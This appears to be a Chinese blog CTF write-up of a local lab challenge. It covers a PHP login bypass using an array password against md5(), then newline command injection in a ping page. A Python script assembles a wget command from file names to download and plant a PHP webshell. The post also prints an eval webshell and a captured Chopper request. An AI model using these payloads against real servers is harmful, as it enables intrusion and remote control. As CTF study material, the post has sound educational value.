


<!--yml
category: 未分类
date: 2022-04-26 14:53:33
-->

# 利用文件名进行GetShell---CTF题目的相关知识解析_xuchen16的博客-CSDN博客_后台getshell

> 来源：[https://blog.csdn.net/xuchen16/article/details/82869484](https://blog.csdn.net/xuchen16/article/details/82869484)

**0x00 环境**

今天白老师扔给我了一个虚拟机，里面有4道CTF的相关网站，我检视了一在/va/www目录下主要有四个文件夹，映射到了8081-8084四个端口。还有一个struts的漏洞测试环境。

随后找了一个看似比较简单的题目尝试一下，解题之前我比较好奇是如何映射的端口，过程不表。

8081-8084是通过apache服务器进行的映射。配置文件位于/etc/apache2/ports.conf，关键点在下图中的四个listen

apache监听后设置虚拟机的虚拟端口，配置文件可以从ports.conf文件中获取。

<VirtualHost *:8081>
        ServerAdmin webmaster@localhost
DocumentRoot /var/www/8081
        <Directory "/var/www/8081">
                Options Indexes FollowSymLinks
                AllowOverride All
                AllowOverride All
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
<VirtualHost *:8082>
        ServerAdmin webmaster@localhost
DocumentRoot /var/www/8082
        <Directory "/var/www/8082">
                Options Indexes FollowSymLinks
                AllowOverride All
                AllowOverride All
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>

<VirtualHost *:8083>
        ServerAdmin webmaster@localhost
DocumentRoot /var/www/8083
        <Directory "/var/www/8083">
                Options Indexes FollowSymLinks
                AllowOverride All
                AllowOverride All
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>

<VirtualHost *:8084>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/8084
        <Directory "/var/www/8084">
                Options Indexes FollowSymLinks
                AllowOverride All
                AllowOverride All
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>

设置之后便可以对端口应用进行访问了。

**0x01 登录绕过**

回到CTF题目，直接访问界面如下：

经过测试，应用只包含一个登陆界面。一顿测试后未果。经过百度查找，发现原题是一个代码审计的题目，尴尬了，于是去后台查看代码

参考网站如下： http://www.moonsos.com/post/256.html 关键代码如下：

1.  `<?php`

2.  `session_start();`

3.  `error_reporting(0);`

6.  `include("config.php");`

9.  `header("Content-Type:text/html;charset=utf-8");`

12.  `function d_addslashes($array){`

13.  `foreach($array as $key=>$value){`

14.  `if(!is_array($value)){`

15.  `!get_magic_quotes_gpc()&&$value=addslashes($value);`

16.  `$array[$key]=$value;`

17.  `}else{`

18.  `$array[$key]=d_addslashes($array[$key]);`

19.  `}`

20.  `}`

21.  `return $array;`

22.  `}`

25.  `$_POST = d_addslashes($_POST);`

26.  `$_GET = d_addslashes($_GET);`

27.  `$username =isset($_POST['username'])?$_POST['username']:die();`

28.  `$password = isset($_POST['password'])?md5($_POST['password']):die();`

29.  `$sql="select password from users where username='$username'";`

30.  `$result = $conn->query($sql);`

31.  `$row = $result->fetch_assoc();`

32.  `if($row[0] === $password){`

33.  `$_SESSION['username']=$username;`

34.  `$_SESSION['status']=1;`

35.  `header("Location: index.php");`

38.  `}else{`

41.  `die("");`

42.  `}`

43.  `?>`

d_addslashes 函数相当于全局过滤，不存在注入漏洞、且数据库与web都是UTF-8编码，也不存在宽字节注入。根据提示，在$row[0] === $password处存在逻辑漏洞。

输入username为不存在用户时，$result为null，从而row[0]为null。password经过md5()函数处理，当参数不为string时会返回null，因此。设置参数“password=1”为“password[]=1”使MD5参数由本来的字符串变为数组即可。便可以绕过验证。

**0x02 命令执行**

验证通过后会跳转到一个展示页面，通过查看源代码，会发现存在ping.php在注释行当中，访问后，来到页面：

既然可以执行ping，那么很可能会存在命令注入。

页面对ip格式进行了正则匹配，最小长度输入为1.1.1.1。后面加入分隔符；& |等，无法正常执行命令,经过测试会发现，程序对& ; | ) ( ` $进行了过滤。但是没有对%0a进行过滤。尝试进行命令注入如下1.1.1.1%0awhoami

尝试写入最短的shell <?=`$_GET(1)`; 但是写入失败，1.1.1.1%0aecho+"shell <?=`$_GET(1)`; ">1.php提示长度错误。分开写的话还是无法成功。鼓捣了半天发现运行权限和文件权限不一样，(可以通过ls -la 和whoami判定)apache是www-data用户，文件夹属于ctf权限。后来发现upload文件夹是775，正好两个账户同属于ctf用户组。于是最小的命令为1.1.1.1%0aecho+"1">upload/1.php，显然还是超了。

后来查询资料，可以借鉴http://wonderkun.cc/index.html/?p=524的七个字符长度任意命令注入。总体思路是通过>xx创建空文件，把wget命令分段写入文件名中，再通过ls到bash脚本中执行wget从而getshell

当前题目与其不同的地方是当前目录无法写入，长度限制在8-25之间，需要写入js等子目录。于是通过修改上述代码，进行自动化写入：

1.  `# -*- coding UTF-8 -*-`

2.  `import requests`

4.  `def getshell():`

5.  `uri = "http://192.168.1.101:8084/ping.php"`

6.  `header = {`

7.  `"Cookie": "PHPSESSID=6o7trs1airh18ea8s3u5npj626",`

8.  `"Content-Type": "application/x-www-form-urlencoded"`

9.  `}`

11.  `download = ["1.php", "8083\ -O\ \\", "7.0.0.1:\\", "wget\ 12\\"]`

12.  `proxy = {"http": "127.0.0.1:8080"}`

13.  `for req in download:`

14.  `base = "ip=1.1.1.1%0a>js\/"`

15.  `data = base + req`

16.  `requests.post(url=uri, data=data, headers=header, proxies=proxy)`

18.  `sh = "ip=1.1.1.1%0als%20js%20-t>js\/1"`

19.  `requests.post(url=uri, data=sh, headers=header, proxies=proxy)`

21.  `download = "ip=1.1.1.1%0ash%20js\/1"`

22.  `requests.post(url=uri, data=download, headers=header, proxies=proxy)`

23.  `response = requests.get("http://192.168.1.108:8084/1.php")`

24.  `if response.status_code == 200:`

25.  `print("[*] getshell!!")`

26.  `else:`

27.  `print("[*] failed!")`

29.  `if __name__ == "__main__":`

30.  `getshell()`

运行脚本会得到一个1.php的webshell，使用菜刀进行连接。通过config.php获取数据库连接口令和账户，得到flag。

**0x03 补充**

中间遇到了很多问题，也get了一些知识点：

1、Linux文件名称中不能包含/，所以在远程服务器下载木马时无法使用wget xxxx/dir的形式，只能在访问index的时候自动下载目录。当前我能想到比较笨的方法是在index页面中写入如下代码：

1.  `<?php`

3.  `echo("<?php @eval(\$_POST['as']);`

4.  `?>`

其中$需要进行转义，否则无法正常打印

2、命令分隔如下：

wget 12\

7.0.0.1:\

8083 -O\

1.php

其中遇到一个大坑，参数应该是大写字母O，即下载内容另存为此文件名。小写的o代表过程信息记录到1.php中。

另外在解题过程中抓取了菜刀的报文，做个记录

1.  `@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$D=base64_decode($_POST["z1"]);$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D."/".$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="\t".$T."\t".@filesize($P)."\t".$E."`

2.  `";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};echo("|<-");die();&z1=/var/www/8084/assets/i/`